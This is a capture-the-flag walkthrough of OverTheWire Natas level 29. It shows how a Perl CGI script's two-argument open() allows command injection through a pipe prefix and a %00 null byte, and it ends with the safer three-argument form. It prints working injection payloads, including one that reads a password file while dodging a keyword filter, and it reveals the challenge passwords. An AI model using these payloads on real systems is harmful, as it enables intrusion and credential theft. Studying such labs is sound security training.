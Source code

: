 ```yaml
---
category: natas
title: Natas29 - Vulnerability of open() in Perl
---
```


website: http://natas29.natas.labs.overthewire.org/ (password: airooCaiseiyee8he8xongien9euhe8b)


In this challenge, a dropdown menu is provided. By selecting an option, a corresponding page is displayed.
In the URL, I saw "http://natas29.natas.labs.overthewire.org/index.pl?file=perl+underground", which means the CGI is written in Perl and a file name is provided into that Perl script.
That immediately reminds me of a command injection.
As a test drive, I typed in the URL "http://natas29.natas.labs.overthewire.org/index.pl?file=\|pwd%00".
That URL returns "/var/www/natas/natas29", which is a good sign.

In the above input, the `%00` is a URL encoding of ASCII value 0 (i.e., the terminator '\0' in many programming lanaguages).
When it appears in a URL, everything behind it will be dropped.
For example, "http://my.example.com/upload/?filename=test.php%00.txt" is equivalent to "http://my.example.com/upload/?filename=test.php". 
This is a popular trick to bypass file extensions for hackers. We will revisit it later.

Trying another parameter "?file=\|ls%00" returns a list of files in the directory, including the file "index.pl".


My next step is to dump the script "index.pl" by injecting the command `cat index.pl`.
To achieve the goal, I provided the parameter "?file=cat%20index.pl%00", where "%20" is a url encoding of space.
You can also use the character '+' to replace "%20" in a URL.
This command injection shows us the source code of "index.pl", part of which is given below:

```perl
#!/usr/bin/perl
...
if(param('file')){
    $f=param('file');
    if($f=~/natas/){
        print "meeeeeep!<br>";
    }
    else{
        open(FD, "$f.txt");
        print "<pre>";
        while (<FD>){
            print CGI::escapeHTML($_);
        }
        print "</pre>";
    }
}
```

To show natas30's password, you will need to inject the command "cat /etc/natas_webpass/natas30".
However, as shown above, the keyword "natas" is escaped,
so we cannot feed the parameter with "?file=|cat%20/etc/natas_webpass/natas30%00".
To workaround it, I fed "?file=|cat%20/etc/na\'\'tas_webpass/nat\'\'as30%00", which returned the password <small>wie9iexae0Daihohv8vuu3cei9wahf0e</small>.

<strong>How it works</strong>

The reason we can launch a command injection against this code is because of the `open()` function in Perl.
This function can be used for command execution by prefixing the filename with a pipe (i.e., "\|").
For example:
```plain
$ perl -e 'open($fd, "|pwd");'
/tmp
```

That's why we feed something like "?file=\|pwd" in the URL.
However, because the source code `open(FD, "$f.txt");` has a file extension ".txt",
it will try to execute the file "pwd.txt", which is impossible.
To bypass the file extension, we append "%00" at the end in the URL, i.e. "?file=\|pwd%00".
Remember the trick we mentioned earlier? "%00" is the url encoding of the terminator '\0'.
When a Perl script sees the terminator, it will ignore the rest part.
Let's look at an example:
```plain
$ perl -e 'open($fd, "|pwd.txt") || die "Failed";'
Failed at -e line 1.

$ perl -e 'open($fd, "|pwd\0.txt") || die "Failed";'
/tmp
```

The second execution succeeded because of the terminator '\0'.



<strong>CONCLUSION</strong>

This challenge covers a few vulnerabilities:

1. The `open()` function is vulnerable to command injection if not used correctly.
In fact, this function has different forms.
To prevent a command injection, a much safer way is to use the 3-parameter form (see an example below).


2. Once "%00" appears in a URL, it's equivalent to a null terminator. Everything behind it will be ignored.
This can be used to bypass file extension restricts.

```plain
    $ perl -e 'open($fd, "|pwd") or die "Failed"'
    /tmp

    $ perl -e 'open($fd, "<", "|pwd") or die "Failed"'
    Failed at -e line 1.
```

<strong>Reference</strong>
1. <a href="https://perldoc.perl.org/functions/open">Perl document: open</a>
2. <a href="https://www.shlomifish.org/lecture/Perl/Newbies/lecture4/processes/opens.html">open() for Command Execution</a>
